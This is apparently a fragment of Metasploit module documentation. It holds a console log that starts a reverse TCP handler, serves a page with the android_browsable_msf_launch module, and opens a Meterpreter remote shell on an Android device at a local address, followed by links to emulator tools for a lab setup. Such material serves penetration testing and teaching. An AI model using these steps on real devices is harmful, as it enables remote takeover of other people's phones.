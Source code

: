     [*] Started reverse TCP handler on 192.168.1.199:4444
    msf exploit(handler) > [*] Starting the payload handler...

    msf exploit(handler) > use auxiliary/server/android_browsable_msf_launch
    msf auxiliary(android_browsable_msf_launch) > set URIPATH /test
    URIPATH => /test
    msf auxiliary(android_browsable_msf_launch) > run

    [*] Using URL: http://0.0.0.0:8080/test
    [*] Local IP: http://192.168.1.199:8080/test
    [*] Server started.
    [*] Sending HTML...
    [*] Sending stage (62432 bytes) to 192.168.1.207
    [*] Meterpreter session 1 opened (192.168.1.199:4444 -> 192.168.1.207:47523) at 2016-03-08 15:09:25 -0600

[sdk]: http://developer.android.com/sdk/index.html#Other
[studio]: http://developer.android.com/sdk/installing/index.html?pkg=studio
[genymotion]: https://www.genymotion.com/download/
[avd]: https://github.com/dral3x/AndroidAVDRepo
